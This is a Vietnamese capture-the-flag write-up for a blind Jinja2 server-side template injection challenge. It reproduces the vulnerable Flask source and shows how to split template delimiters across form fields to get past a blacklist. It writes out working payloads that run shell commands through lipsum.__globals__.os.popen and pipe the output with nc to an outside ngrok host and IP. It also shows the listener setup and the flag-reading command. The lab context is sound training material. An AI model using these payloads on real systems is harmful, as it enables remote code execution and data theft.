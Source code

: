 # Python - Blind SSTI Filters Bypass (Hard - 75 pts)

Bài này cung cấp source code, nên chúng ta sẽ thực tải tải source code về để phân tích:

server_ch73.py

```
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# Author             : Podalirius

import jinja2
from flask import Flask, flash, redirect, render_template, request, session, abort

mail = """
Hello team,

A new hacker wants to join our private Bug bounty program! Mary, can you schedule an interview?

 - Name: {{ hacker_name }}
 - Surname: {{ hacker_surname }}
 - Email: {{ hacker_email }}
 - Birth date: {{ hacker_bday }}

I'm sending you the details of the application in the attached CSV file:

 - '{{ hacker_name }}{{ hacker_surname }}{{ hacker_email }}{{ hacker_bday }}.csv'

Best regards,
"""

def sendmail(address, content):
    try:
        content += "\n\n{{ signature }}"
        _signature = """---\n<b>Offsec Team</b>\noffsecteam@hackorp.com"""
        content = jinja2.Template(content).render(signature=_signature)
        print(content)
    except Exception as e:
        pass
    return None

def sanitize(value):
    blacklist = ['{{','}}','{%','%}','import','eval','builtins','class','[',']']
    #blacklist =[]
    for word in blacklist:
        if word in value:
            value = value.replace(word,'')
    if any([bool(w in value) for w in blacklist]):
        value = sanitize(value)
    return value

app = Flask(__name__, template_folder="./templates/", static_folder="./static/")
app.config['DEBUG'] = False

@app.errorhandler(404)
def page_not_found(e):
    return render_template("404.html")

@app.route("/", methods=['GET','POST'])
def register():
    global mail
    if request.method == "POST":
        #if "name" in request.form.keys() and len(request.form["name"]) != 0 and "surname" in request.form.keys() and len(request.form["surname"]) != 0 and "email" in request.form.keys() and len(request.form["email"]) != 0 and "bday" in request.form.keys() and len(request.form["bday"]) != 0 :
        if True:
            '''if len(request.form["name"]) > 20:
                return render_template("index.html", error="Field 'name' is too long.")
            if len(request.form["surname"]) >= 50:
                return render_template("index.html", error="Field 'surname' is too long.")
            if len(request.form["email"]) >= 50:
                return render_template("index.html", error="Field 'email' is too long.")
            if len(request.form["bday"]) > 10:
                return render_template("index.html", error="Field 'bday' is too long.")'''
            try:
                register_mail = jinja2.Template(mail).render(
                    hacker_name=sanitize(request.form["name"]),
                    hacker_surname=sanitize(request.form["surname"]),
                    hacker_email=sanitize(request.form["email"]),
                    hacker_bday=sanitize(request.form["bday"])
                )
            except Exception as e:
                pass
            sendmail("offsecteam@hackorp.com", register_mail)
            return render_template("index.html", success='OK')
        else:
            return render_template("index.html", error="Missing fields in the application form!")
    elif request.method == 'GET':
        return render_template("index.html")

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=59073)

```
Giải thích ngắn gọn thì bài này sẽ gồm một form gồm có 4 field input để nhập name, surname, email và birthday. Có một số điểm cần lưu ý trong đoạn code:

- Độ dài tối đa của name là 20, surname là 50, email là 50 và birthday là 10.
- Hàm sanitize sẽ thực hiện xóa kí tự nằm trong blacklist ra khỏi các chuỗi nhập vào.

Trong bài này templete được sử dụng là jinja2, nhưng tất cả `{{, }}, {%, %}` đều nằm trong blacklist, đâu là chỗ làm cho mình bế tak part 1.

Sau khi search mệt nhoài trên Internet và không tìm được solution nào hữu dụng cho trường hợp  này, mình đã quay trở lại nhìn đi nhìn lại đoạn code thật kĩ. Và mình phát hiện ra một điểm có vẻ sẽ hữu ích:

![image](https://user-images.githubusercontent.com/83667873/151422760-5fdfba84-541e-4c1e-9b52-edad35bcbb11.png)

Trong phần nội dung của mail sẽ được sử dụng trong phần sendmail có một tạo thành filename của file `.csv` mà ở đây nội dung do chúng ta nhập vào (name, surname, email, birthday) sẽ được viết liền nhau. 

Mình có thể lợi dụng điều này để tạo ra các cặp {{, }}, {%, %} tùy ý.

Nói suông khó hiểu, nên mình sẽ dựng lại ở local để test cho dễ:

Thêm print vô đây để xem được kết quả:

![image](https://user-images.githubusercontent.com/83667873/151424463-0dfbb6eb-abca-475d-9d6e-598c7a8ab208.png)

Ở đây mình sẽ nhập vào:

- name={
- surname={9*9}
- email=}
- birthday=hi

![image](https://user-images.githubusercontent.com/83667873/151424131-5e2c090b-17f2-4c19-9852-1b752b57e336.png)

Giờ chúng ta sẽ thấy kết quả chỗ .csv sẽ trở thành `81hi.csv`, chứng tỏ chúng ta đẽ thực hiện khai thác ssti được.

Vì bài này số kí tự bị giới hạn và một số từ bị filter như: `builtins, class, import,...`, nên mình thực hiện chọn ra một payload mà mình thấy thích hợp nhất:

```
{{lipsum.__globals__.os.popen('command')}}
```

Oke vấn đề thứ nhất được giải quyết, vấn đề thứ hai là kết quả sẽ không được show ra ở bất kì đâu, điều này làm mình betak part 2.

Đầu tiên mà mình nghĩ tới là sử dụng {% if %} {% endif%} block và hàm sleep để thực hiện lấy từng kí tự, nhưng hướng này nohope quá vì thật sự chúng ta chỉ có thể tận dụng nối input để tạo ra duy nhất một cặp {% %} hoặc {{ }}, và kí tự của name và email phải nhỏ hơn 50.

Tiếp theo mình nghĩ tới việc dựng reverse shell, nhưng trình gà quá nên mình dựng đi dựng lại nó vẫn không hoạt động được, vậy nên mình chuyển qua cách khác cũng tương tự nhưng tương đối thủ công hơn:

Ở máy local thực hiện lắng nghe trên port 12345

```
nc -lvp 12345
```
Sử dụng ngrok để public ra bên ngoài:

```
ngrok tcp 12345
```
![image](https://user-images.githubusercontent.com/83667873/151426237-78f88c6b-e972-4838-ac75-7ab7c4ace068.png)

Ở phía server, chúng ta cần tính toán để phân chia payload ở surname và email sao cho thích hợp, nó sẽ ở dạng tương tự:

```
name=hi{&surname={lipsum.__globals__.os.popen('command | nc 6.tcp.ngrok.io 13744').read()}&bday=hi}
```

`| nc 6.tcp.ngrok.io 13744` để gửi kết quả thực thi command từ server về máy local của chúng ta.

Trước tiên mình sẽ thử thực hiện list file:

```
name=hi{&surname={lipsum.__globals__.os.popen('ls | nc 6.tcp.ngrok.io 13744').read()}&bday=hi}
```

![image](https://user-images.githubusercontent.com/83667873/151427611-eae1b324-6c2b-4e65-aa84-e286f50f5938.png)

Ở đây có folder `9f` là đáng ngờ nhất nên mình thử list file trong 9f, sau một vài lần thử thì mình thấy có vẻ có rất nhiêu folder trong folder, chứng tỏ khả năng rất cao là flag nằm trong này.

Thử dùng find để tìm flag:

```
name=hi{&surname={lipsum.__globals__.os.popen("find -name 'flag*'&email=|nc 3.140.223.7 13744")}&bday=}
```

![image](https://user-images.githubusercontent.com/83667873/151428130-aa373dc3-f812-4d66-b065-24a5baac1013.png)

Oce, vậy là đã tìm được đường dẫn đến flag, oce vậy cat thôi. 

Hi, chưa cat được đâu, vì đường dẫn đến flag rất dài: `9f/35/cc/c7/95/80/59/46/ac/79/10/3d/aa/flag.txt` -> 47 kí tự, dù mình có tìm cách tối ưu như nào thì vẫn không thể đảm bảo nhỏ hơn 50 kí tự.

Ở đây mình có 2 cách giải quyết:

**Cách 1:**
Thực hiện sử dụng * thay vì nhập full đường dẫn, ví dụ:

`*/*/*/*/*/*/*/*/*/*/*/*/*/flag*` điều này giúp chúng ta tiết kiệm được kha khá kí tự:
 Payload:
 
 ```
 name=hi{&surname={lipsum.__globals__.os.popen("cat */*/*/*/*/*/*/*&email=/*/*/*/*/*/flag.t*|nc 3.140.223.7 13744").read()}&bday=}
 ```
*(3.140.223.7 là do mình chuyển từ 6.tcp.ngrok.io sang IP để rút ngắn ký tự :')))) )*

Kết quả đọc flag thành công:

![image](https://user-images.githubusercontent.com/83667873/151429208-2e3f8978-b33e-442b-997c-b41210e3377a.png)

**Cách 2:**

Mình tự nhận thấy cách này ngu ngok. Hehe. Anyway, it works

Dùng grep -r "something" để in ra nội dung, mình grep dần dần theo bản chữ cái đến khi nào gặp được flag. Cũng không lâu lắm, mình grep đến kí tự c là được:

![image](https://user-images.githubusercontent.com/83667873/151429959-4e56b554-cd01-4452-90b2-93c771becfbb.png)



